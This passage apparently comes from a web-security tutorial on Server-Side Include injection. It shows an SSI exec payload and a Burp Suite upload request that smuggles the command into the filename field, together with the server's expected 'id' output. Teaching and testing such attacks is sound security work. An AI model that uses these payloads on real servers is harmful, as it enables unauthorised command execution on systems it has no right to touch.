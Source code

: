 If the server supports remote file inclusion, the attacker can execute arbitrary code or malicious scripts from their external server. This could lead to **Remote Code Execution (RCE)**, enabling the attacker to control the vulnerable system.

***

### **Using Burp Suite for Advanced Payloads and Exploits**

#### **5. Advanced Payload for Command Injection**

If the server allows commands to be executed via an SSI directive, the attacker can inject arbitrary commands using **command injection** techniques.

**Burp Suite Request for Command Injection:**

```html
<!--#exec cmd="id" -->
```

In Burp Suite, this can be injected into any parameter that is passed to an SSI directive. For example, a vulnerable file upload form could be tricked into executing arbitrary commands.

**Request in Burp Suite:**

```markup
POST /upload-profile HTTP/1.1
Host: example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5lLiyqMk7wej39ti
Content-Length: 1234

------WebKitFormBoundary5lLiyqMk7wej39ti
Content-Disposition: form-data; name="profile_image"; filename="user-profile.jpg<!--#exec cmd='id'--> "
Content-Type: image/jpeg

<binary data here>
------WebKitFormBoundary5lLiyqMk7wej39ti--
```

**Expected Response:**

```plaintext
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This shows the **user context** under which the server is running, helping the attacker understand if they have sufficient privileges to escalate further.
